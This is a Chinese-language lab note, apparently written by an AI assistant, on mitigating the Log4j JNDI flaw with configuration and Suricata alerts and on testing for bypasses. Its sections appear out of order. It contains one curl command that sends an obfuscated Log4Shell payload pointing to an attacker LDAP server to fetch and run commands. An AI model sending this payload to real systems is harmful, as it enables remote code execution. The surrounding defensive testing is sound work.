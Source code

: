 ➡️ 结果：
 ✅ 服务器未返回 Shell
 ✅ Suricata 触发报警

------

### 🔥 **2. 执行绕过测试（预期成功或失败）**

```bash
curl -G http://192.168.109.4:22220//hello \
--data-urlencode 'payload=${jndi:%6c%64%61%70://192.168.109.5:1389/tomcatBypass/Command/Base64/...}'
```

➡️ 结果：
 ✅ 如果触发报警，表示防御成功
 ✅ 如果未触发报警，表示存在绕过方式

------

## 🏆 **缓解任务总结**

✅ 完成基础缓解：禁用 JNDI 加载器 + 禁止 LDAP/RMI 出站
 ✅ 完成 Suricata 配置：启用检测 + 触发报警
 ✅ 初步测试绕过行为：发现并记录绕过策略

------

**🔥 阶段 1 完成！接下来你可以开始测试绕过方法，挑战更深层的防御！ 😎🔥**







🔥 **这是一项系统性的任务！可以将它拆解为几个明确的阶段：**

------

## 🎯 **任务 ①：缓解 Log4j 漏洞并研究绕过方法**

### ✅ **阶段 1：缓解 Log4j 漏洞**

🔹 目标：通过修改配置或其他非版本更新方式，暂时阻止 Log4j 漏洞的触发。
 🔹 操作步骤：

1. **禁用 JNDI 加载器**

   - 在 `log4j2.properties` 或系统环境变量中设置以下配置，防止 JNDI 触发：

   ```properties
   log4j2.formatMsgNoLookups=true
   ```

   - 或在 JVM 启动参数中设置：

   ```bash
   -Dlog4j2.formatMsgNoLookups=true
   ```

